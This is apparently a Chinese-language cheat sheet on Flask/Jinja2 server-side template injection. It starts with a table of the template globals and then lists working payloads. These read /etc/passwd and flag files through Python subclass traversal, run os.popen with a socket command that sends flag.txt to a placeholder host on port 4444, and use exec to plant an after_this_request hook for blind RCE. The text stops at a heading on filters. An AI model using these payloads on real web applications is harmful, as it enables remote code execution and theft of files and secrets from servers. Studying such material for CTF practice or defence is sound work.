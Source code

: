 ![](image-3.png)

---
#### 漏洞利用
- 框架会自动将一些全局对象注入到模板上下文中，例如 `config`、`request`、`session` 等。攻击者可以利用这些对象来执行任意代码或获取敏感信息。
下面是一个简明的表格，列出了 Flask 模板中常用的全局对象及其使用方法和示例：

| 全局对象   | 描述                                                         | 在模板中的使用方法                                      | 示例代码                                                   |
|------------|--------------------------------------------------------------|---------------------------------------------------------|------------------------------------------------------------|
| **config** | 表示 Flask 应用的配置字典，包含调试模式、密钥、数据库等信息。    | 通过索引（如 `config['DEBUG']`）或 `config.get('KEY')` 访问。 | `{{ config['DEBUG'] }}` 显示 DEBUG 模式状态。              |
| **request**| 表示当前 HTTP 请求对象，包含请求方法、查询参数、表单数据、请求头等。| 访问对象属性，如 `request.method`、`request.args` 等。  | `<p>请求方法：{{ request.method }}</p>`<br>`<p>查询参数：{{ request.args.get('name', '访客') }}</p>` |
| **session**| 用于存储跨请求会话的数据（如用户登录信息）。                     | 直接访问存储在 session 中的数据，如 `session.username`。  | `{% if session.username %}<p>欢迎回来，{{ session.username }}！</p>{% endif %}` |
| **g**      | 一个用于在单次请求中存放临时数据的全局命名空间。                   | 直接使用属性访问，如 `g.user`。                          | `{% if g.user %}<p>当前用户：{{ g.user }}</p>{% endif %}`      |
| **url_for**| 一个函数，用于根据视图函数名称生成 URL，避免硬编码路径。           | 在模板中直接调用，如 `url_for('index')`。                | `<a href="{{ url_for('index') }}">首页</a>`                 |

##### 读取远程文件
```python
# ''.__class__.__mro__[2].__subclasses__()[40] = File 类
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/tmp/flag").read() }}
# https://github.com/pallets/flask/blob/master/src/flask/helpers.py#L398
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```
##### 在不猜测偏移量的情况下调用 Popen

```python
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ip\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```
##### 在 Blind RCE 中强制输出
```python
{{
x.__init__.__builtins__.exec("from flask import current_app, after_this_request
@after_this_request
def hook(*args, **kwargs):
    from flask import make_response
    r = make_response('Powned')
    return r
")
}}
```
##### 常用过滤器